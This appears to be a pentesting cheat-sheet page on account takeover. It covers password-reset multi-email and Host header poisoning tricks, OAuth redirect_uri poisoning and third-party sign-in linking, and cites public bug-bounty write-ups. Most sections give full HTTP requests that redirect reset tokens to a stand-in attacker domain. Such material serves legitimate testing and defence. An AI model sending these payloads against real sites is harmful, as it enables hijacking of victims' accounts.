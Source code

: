 Account takeover allows you to take full control on the user's account.

# Password recovery

Password recovery functionality is often implemented by sending a one-time link to email. 

## Several email addresses

Sometimes you can takeover an account by specifying several email addresses in the password recovery request. For example, if an application is vulnerable to such an attack, on a similar request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```

an application will send the same recovery link to two email addresses.

## Host header poisoning

Applications can use the `Host` header value for generating a password recovery link. If the application is vulnerable to `Host` header poisoning, you could affect the link and specify its own domain name. As a result, if the victim follows the link from the email, the recovery token will leak to the you.

There are several ways to implement `Host` header poisoning.

### X-Forwarded-Host header

The [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host) header is a header for identifying the original host requested by the client in the `Host` request header. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### X-Host header

`X-Host`, like `X-Forwarded-Host`, sometimes is used to identifying the original host. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Several host header

You can try specifying several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Host header replacement

You can try replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

# OAuth

## Host header poisoning

Poisoning the `Host` header can lead to account takeover not only during password recovery, but also OAuth authentication. Sometimes you can affect `redirect_uri` by poisoning the `Host` header. As a result, when the victim exchanges the authorization code for access token, he / she will send a request with this token to your domain. Example of vulnerable request:

```http
GET /twitter/login HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
```

References:

- [Write up: Account Takeover in Periscope TV](https://hackerone.com/reports/317476) 

# Third-party sign-in or sign-up

Applications that implement third party sign-in or sign-up often identify users based on the attached email address that the third party application sends. In such cases, you can try sign-in or sign-up with two different third-party applications that are linked to the same email address. Sometimes these two accounts can be joined and you will have access to the victim's account by sign-in or sign-up with your third-party application account.

For example, suppose a victim sign-in or sign-up to `vulnerable-website.com` with `third-party-app1.com`, which is linked to `victim@website.com`. To exploit this, you can try the following:

1. Create an account at `third-party-app2.com` and enter the `victim@website.com` email address (ideal if email confirmation is not required),
2. Try sign-in or sign-up at `vulnerable-website.com` through `third-party-app2.com`,
3. If the application is vulnerable, then you will have access to the victim's account.

References:

- [Write up: account takeover https://teamplay.qiwi.com](https://hackerone.com/reports/439207)

# Adding or changing email addresses

If the operations of adding a new email address or changing an existing one do not require password confirmation, session hijacking, XSS or CSRF can lead to account takeover.
